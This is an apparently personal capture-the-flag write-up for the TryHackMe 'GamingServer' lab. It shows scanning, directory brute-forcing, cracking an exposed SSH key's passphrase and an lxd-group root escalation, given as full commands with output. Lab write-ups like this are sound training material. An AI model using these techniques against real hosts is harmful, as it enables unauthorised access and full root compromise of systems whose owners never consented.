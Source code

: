# GamingServer

[https://tryhackme.com/r/room/gamingserver](https://tryhackme.com/r/room/gamingserver)

### **USER_FLAG{ } :**

1. we get the target ip which is 10.10.73.9
2. after doing an port scan  → 

`nmap -sC -sV 10.10.73.9 >> nmap.txt`

![game_server-1](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/f5e8b5f1-4e74-43f7-808f-2caf462169e1)

1. there are only two ports open ssh and http
2. if we go to that IP we can find a website

![game_server-2](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/a221b63e-307e-4824-8e35-7ac2eed5ebe8)

1. and in the dev tools we can have a potential user name which is john
2. for finding hidden files and directories we can use 

`gobuster dir -u [http://10.10.73.9](http://10.10.73.9/) -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x .html,.php,.txt`

1. we found some directories

![game_server-3](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/68c04bd6-b984-4c22-979f-dccc79c99180)

1. `/about.html (Status: 200)
/about.php (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/uploads (Status: 301)
/myths.html (Status: 200)
/secret (Status: 301)`
2. In the `/secret` directory, we have a file named `secretKey` which contains a private key. We have SSH installed on the target machine. This could be the private SSH key of user `john`.
3. 

![game_server-4](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/1ec8cde6-b8f5-4454-b9eb-e1645fa4feef)

1. but this thing is password protected
2. We also have a `/uploads` which contains some interesting files.
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png)
    
    Of course we need to check the `meme.jpg` first :D
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png)
    
    We also have a "The Hacker Manifesto" which looks pretty neat!
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png)
    
    There is another file named `dict.lst` which looks like a wordlist. Let's download this to our system. We can use this wordlist to crack the private key!
    
3. User Shell
    
    We can use John the Ripper tool to crack the password for the private key of user `john`.
    
    We need to convert the `secretKey` into a format that John can understand.We will be using `ssh2john.py` for this.
    
    I'll save the output in `hash.txt` and then we can crack the password with the wordlist we found using John the Ripper.
    
![game_server-9](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/fc5a3aef-cb5d-4a38-9bce-92cda2d6d8c9)
    
![game_server-10](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/61531c9f-8a04-442d-82de-e31827cbba46)
    
    We got the password for the private key. Now we can login via SSH and read the user flag!
    
4. Now we ave to use  `ssh -i secretKey [john@10.10.215.18](mailto:john@10.10.215.18)`

![game_server-11](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/68a10cb0-45a0-4e5a-bacb-82dc864eb1e4)

in this form we need to give te secretKey 600 chmod permissio (600 permissions means that **only the owner of the file has full read and write access to it**.)

ssh private key needs 600  permission

# PrivEsc from lxc/lxd  

### **ROOT_FLAG{ }:**



1. We have a shell as user `john` and now we need to find a way to escalate our privileges to root.

If we use the `id` command, we can see that the user `john` is a part of the `lxd` group.

![game_server-12](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/864a3668-e5b9-4afc-8e0b-44d48eba089a)

LXD is a lightweight container hypervisor which allows to run linux containers. If a member is part of the `lxd` group, it can escalate its privileges to user `root` irrespective of the fact that it has sudo permissions or not.

I found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation?ref=infosecarticles.com) guide related to `lxd` privilege escalation. We need to build an `alpine` image and then we can mount the `/root` directory of  the target machine to the `/mnt` directory of a `lxd` container.

1. First we need to build the image in our own machine:
    
    ```
    git clone https://github.com/saghul/lxd-alpine-builder.git
    cd lxd-alpine-builder
    ./build-alpine
    
    ```
    
    This will create a `.tar.gz` compressed image similar to this:
    
    
    
    Next we need to copy the compressed file to the target machine and then import the image using `lxc`.
    
    ```
    john@exploitable:~$ lxc image import ./alpine-* --alias myimage
    Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
    ```
    
    ```
    john@exploitable:~$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    | myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jan 7, 2023 at 6:10pm (UTC) |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    john@exploitable:~$ lxc init myimage image -c security.privileged=true
    Creating image
    ```
    
    ```
    john@exploitable:~$ lxc config device add image mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to image
    ```
    
    ```
    john@exploitable:~$ lxc start image
    ```
    
    Our container has been created. Now we can simply start the container and read our final flag in the `/mnt/root/root` directory!
    
    ```
    john@exploitable:~$ lxc exec image /bin/sh
    ~ # id
    uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
    ********************************
    
    ```
    
2. In the middle section you have to run a simple http server and the you have to wget with your machines ip address tun0 in the target machine.s



at last !

![game_server-14](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/ebb5227c-05ee-49df-b0d5-8ff9480e5609)

### **Alhumdulillah!**
